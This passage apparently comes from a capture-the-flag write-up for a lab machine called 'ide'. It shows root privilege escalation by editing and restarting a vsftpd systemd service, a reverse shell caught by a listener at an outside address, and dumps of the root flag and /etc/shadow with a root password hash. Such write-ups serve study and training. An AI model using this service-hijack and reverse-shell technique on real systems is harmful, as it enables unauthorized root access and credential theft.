 
the output

```
drac@ide:/var/www/html/codiad$ nano /etc/systemd/system/multi-user.target.wants/vsftpd.service
drac@ide:/var/www/html/codiad$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:/var/www/html/codiad$ sudo /usr/sbin/service vsftpd restart
```

we get our shell

```
listening on [any] 1341 ...
connect to [10.6.24.127] from (UNKNOWN) [10.10.239.154] 41766
sh: 0: can't access tty; job control turned off
# whoami
root
# uname -a
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
# sudo -l
Matching Defaults entries for root on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on ide:
    (ALL : ALL) ALL
# 
```

/root/root.txt

```
ce258cb16f47f1c66f0b0b77f4e0fb8d
```

/etc/shadow

```
root:$6$QYHRcZg0$Zrs3m3TUQLln2eDdTNmh8pMY747fLC6hsnQytI/zmMM4bEbD5xl5/W0QRZQ091LhUVSM.6lmbmg0BulIzFpXT.:18796:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
```